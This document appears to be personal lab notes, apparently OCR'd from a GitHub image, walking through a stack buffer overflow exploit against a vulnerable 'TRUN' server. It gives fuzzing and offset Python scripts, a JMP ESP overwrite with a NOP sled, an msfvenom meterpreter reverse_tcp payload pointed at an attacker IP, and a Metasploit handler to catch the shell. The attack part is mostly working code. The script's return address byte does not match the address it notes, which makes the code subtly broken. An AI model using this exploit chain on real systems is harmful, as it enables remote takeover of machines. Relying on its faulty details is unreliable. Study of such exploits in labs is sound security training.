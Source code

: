 On linux: strings, file, then do static and dynamic analysis

'''
#!/usr/bin/env python
import socket
buf = " "
s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) ##Creating socket,IPv4
s.connect(("192.168.65.10",9999)) ## define host and port 
print s.recv(1024) #print response to screen
s.send(buf) ## send variable buf
print s.recv(1024) ## print response to screen
s.close() ## closes socket
---
run to see connectivity of port

#!/usr/bin/env python
import socket
buf = "TRUN /.:/"
buf += "A" * 5000
s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) ##Creating socket,IPv4
s.connect(("192.168.65.10",9999)) ## define host and port
print s.recv(1024) #print response to screen
s.send(buf) ## send variable buf
print s.recv(1024) ## print response to screen
s.close() ## closes socket
'''
---
run immunity debugger as admin
file, attach secureserver, make sure it is running by clicking the play button, then send the python script
then send 5000 As to overflow it and then calculate the offset using wiremask.eu

#!/usr/bin/env python
import socket
buf = "TRUN /.:/"
buf += "A" * 2003
buf += "BBBB"
s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) ##Creating socket,IPv4
s.connect(("192.168.65.10",9999)) ## define host and port
print s.recv(1024) #print response to screen
s.send(buf) ## send variable buf
print s.recv(1024) ## print response to screen
s.close() ## closes socket
---
allows us go get 42424242 as eip

input !mona modules
--allows us to view what dlls where called on
!mona jmp -r esp -m "essfunc.dll"
--go to window<2:LogData
copy to clipboard address
625011AF

#!/usr/bin/env python
import socket
buf = "TRUN /.:/"
buf += "A" * 2003
buf+= "\xaf\x11\x50\x52"
buf += "\x90" * 15
s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) ##Creating socket,IPv4
s.connect(("192.168.65.10",9999)) ## define host and port
print s.recv(1024) #print response to screen
s.send(buf) ## send variable buf
print s.recv(1024) ## print response to screen
s.close() ## closes socket
##625011AF -> "\xaf\x11\x50\x52"
---
##msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.29.245 -lport=4444 -b "\x00" -f python
---
copy everthing except the first line
launch msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444

should get a meterpreter shell decently quickly





















































































